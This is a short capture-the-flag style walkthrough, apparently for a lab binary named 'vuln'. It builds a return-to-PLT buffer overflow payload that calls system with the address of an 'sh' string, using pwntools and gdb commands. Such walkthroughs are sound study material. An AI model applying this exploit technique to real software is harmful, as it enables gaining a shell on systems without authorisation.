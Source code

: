 # Get address of system from plt

'''

Because system function is used inside the program, we can get system addres from PLT. Add thesse two lines in exploit script

binary = ELF("./vuln", checksec=False)
system_plt_address = binary.plt.system

'''

# Get address of sh string

```
Find address of string which contains sh

gdb vuln
b main
r
find 0x8048000,0x8049000,"Check your stash"

Output: 0x8048607

x/s  0x8048607+14 => sh_address = 0x8048607 + 14

```
# Payload

```
payload = offset * b"A" + p32(system_plt_address) + 4 * b"B" + p32(sh_address)

```
